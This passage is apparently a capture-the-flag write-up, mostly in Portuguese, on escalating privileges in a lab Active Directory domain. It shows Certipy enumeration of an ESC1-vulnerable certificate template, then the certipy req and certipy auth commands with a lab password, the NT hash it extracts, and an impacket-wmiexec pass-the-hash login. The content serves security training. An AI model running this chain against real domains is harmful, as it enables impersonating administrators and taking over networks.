[*] Retrieving CA configuration for 'thm-LABYRINTH-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'thm-LABYRINTH-CA'
[*] Checking web enrollment for CA 'thm-LABYRINTH-CA' @ 'labyrinth.thm.local'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : thm-LABYRINTH-CA
    DNS Name                            : labyrinth.thm.local
    Certificate Subject                 : CN=thm-LABYRINTH-CA, DC=thm, DC=local
    Certificate Serial Number           : 5225C02DD750EDB340E984BC75F09029
    Certificate Validity Start          : 2023-05-12 07:26:00+00:00
    Certificate Validity End            : 2028-05-12 07:35:59+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : THM.LOCAL\Administrators
      Access Rights
        ManageCa                        : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        ManageCertificates              : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Enroll                          : THM.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : ServerAuth
    Display Name                        : ServerAuth
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-05-12T08:55:40+00:00
    Template Last Modified              : 2023-05-12T08:55:40+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Authenticated Users
      Object Control Permissions
        Owner                           : THM.LOCAL\Administrator
        Full Control Principals         : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Owner Principals          : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Property Enroll           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : THM.LOCAL\Authenticated Users
                                          THM.LOCAL\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.

```

### Template vulnerável
- Nome: `ServerAuth`
- Vulnerabilidade: **ESC1**
    - `Enrollee supplies subject`: permite você definir UPN manualmente
    - `Client Authentication` está ativo
    - `Authenticated Users` têm permissão de Enroll

### Passo a Passo da Escalação

O motivo de estar utilizando a conta do Bradley é que, após tentar com a conta do Administrator sem sucesso, optamos por ele. Sabemos que Bradley faz parte do grupo dos administradores, portanto sua conta será útil.

`certipy req -u SUSANNA_MCKNIGHT@thm.local -p CHANGEME2023\! -upn BRADLEY_ORTIZ@thm.local -target thm.local -ca thm-LABYRINTH-CA -template ServerAuth`


`sudo ntpdate -u thm.local`

- **`ntpdate`**: ferramenta para sincronizar o relógio do seu sistema com o de um servidor remoto.
- **`-u`**: força o uso de **UDP** (importante quando o firewall bloqueia portas NTP tradicionais).
- **`thm.local`**: nome (ou IP) do servidor que fornece a hora — no seu caso, o **Domain Controller**.

**Por que isso é importante no AD/Kerberos?**
- O **Kerberos é extremamente sensível ao tempo**.
- Se a diferença de horário entre o seu sistema e o DC for maior que **5 minutos**, **TGTs (tickets) serão recusados**.
- Esse erro comum é `KRB_AP_ERR_SKEW`.


`certipy auth -pfx bradley_ortiz.pfx -domain thm.local -dc-ip 10.10.1.34`

Extraindo o hash NT para o usuário


`impacket-wmiexec -hashes :16ec31963c93240962b7e60fd97b495d THM.LOCAL/bradley_ortiz@labyrinth.thm.local`

